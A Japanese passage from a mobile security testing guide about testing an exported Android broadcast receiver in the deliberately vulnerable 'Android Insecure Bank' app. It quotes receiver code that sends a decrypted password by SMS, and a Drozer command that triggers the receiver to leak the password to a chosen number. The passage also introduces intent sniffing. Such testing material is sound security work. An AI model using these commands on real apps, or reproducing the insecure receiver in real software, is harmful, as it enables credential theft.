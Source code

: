 例題アプリ "Android Insecure Bank" <sup>2</sup> では、ひとつのブロードキャストレシーバがエクスポートされており、パーミッションを必要とせず、ブロードキャストレシーバをトリガするインテントを記述できることを示しています。ブロードキャストレシーバをテストする際、静的解析を使用してブロードキャストレシーバの機能を理解する必要もあります。

以下の抜粋は、ターゲットアプリケーションのソースコードから取得したもので、ブロードキャストレシーバが SMS メッセージをトリガし、復号されたユーザーのパスワードを含むものを送信することが分かります。

```
public class MyBroadCastReceiver extends BroadcastReceiver {
  String usernameBase64ByteString;
  public static final String MYPREFS = "mySharedPreferences";

  @Override
  public void onReceive(Context context, Intent intent) {
    // TODO Auto-generated method stub

        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");

    if (phn != null) {
      try {
                SharedPreferences settings = context.getSharedPreferences(MYPREFS, Context.MODE_WORLD_READABLE);
                final String username = settings.getString("EncryptedUsername", null);
                byte[] usernameBase64Byte = Base64.decode(username, Base64.DEFAULT);
                usernameBase64ByteString = new String(usernameBase64Byte, "UTF-8");
                final String password = settings.getString("superSecurePassword", null);
                CryptoClass crypt = new CryptoClass();
                String decryptedPassword = crypt.aesDeccryptedString(password);
                String textPhoneno = phn.toString();
                String textMessage = "Updated Password from: "+decryptedPassword+" to: "+newpass;
                SmsManager smsManager = SmsManager.getDefault();
                System.out.println("For the changepassword - phonenumber: "+textPhoneno+" password is: "+textMessage);
smsManager.sendTextMessage(textPhoneno, null, textMessage, null, null);
```

Drozer モジュール `app.broadcast.send` を使用して、ブロードキャストをトリガするインテントを記述し、コントロール内の電話番号にパスワードを送信できます。

```
dz>  run app.broadcast.send --action theBroadcast --extra string phonenumber 07123456789 --extra string newpass 12345
```

これにより以下の SMS が生成されます。

```
Updated Password from: SecretPassword@ to: 12345
```

###### インテントの傍受

Android アプリケーションが必要なパーミッションの設定をせずに、または受け側のパッケージを指定せずにインテントをブロードキャストする場合、そのインテントはデバイス上の任意のアプリケーションにより傍受される可能性があります。

ブロードキャストレシーバを登録してインテントを傍受するには、Drozer モジュール `app.broadcast.sniff` を使用する必要があります。`--action` パラメータで傍受するアクションを指定します。
